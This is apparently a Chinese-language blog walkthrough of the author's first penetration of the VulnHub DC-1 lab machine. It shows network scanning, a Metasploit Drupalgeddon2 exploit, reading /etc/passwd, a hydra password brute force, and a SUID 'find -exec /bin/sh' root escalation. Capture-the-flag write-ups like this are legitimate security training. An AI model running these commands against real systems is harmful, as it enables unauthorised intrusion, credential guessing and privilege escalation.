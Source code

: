 ```yaml
---
layout: post
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 渗透
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](/images/posts/DC-1-1/arp.png)

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

![nmap](/images/posts/DC-1-1/nmap.png)

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](/images/posts/DC-1-1/search.png)

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](/images/posts/DC-1-1/show.png)

设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](/images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](/images/posts/DC-1-1/passwd.png)

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .

![hydra](/images/posts/DC-1-1/hydra.png)

看到密码为orange

![hint](/images/posts/DC-1-1/hint.png)

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](/images/posts/DC-1-1/root.png)

#### 我的第一次靶机渗透成功

![success](/images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
